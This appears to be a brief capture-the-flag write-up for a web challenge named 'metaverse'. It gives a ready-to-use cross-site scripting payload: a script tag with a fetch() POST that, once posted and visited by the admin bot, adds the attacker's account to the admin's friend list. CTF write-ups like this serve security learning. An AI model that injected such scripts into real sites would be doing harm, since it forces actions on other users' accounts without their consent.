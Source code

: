 Just make admin to add my account to friend list
Find js function friend() and add it ti script tag, make post and send url to admin bot

<script>
fetch("https://metaverse.lac.tf/friend", {
                    method: "POST",
                    body: "username=<your username>",
                    headers: {
                        "Content-Type": "application/x-www-form-urlencoded",
                    },
                }).then((res) =>
                    res.text().then((t) => {
                        if (res.status !== 200) {
                            document.querySelector(".error")?.remove();
                            const error = document.createElement("p");
                            error.innerText = t;
                            error.classList.add("error");
                            document.body.insertAdjacentElement("afterbegin", error);
                        } else {
                            location.reload();
                        }
                    })
                );
</script>
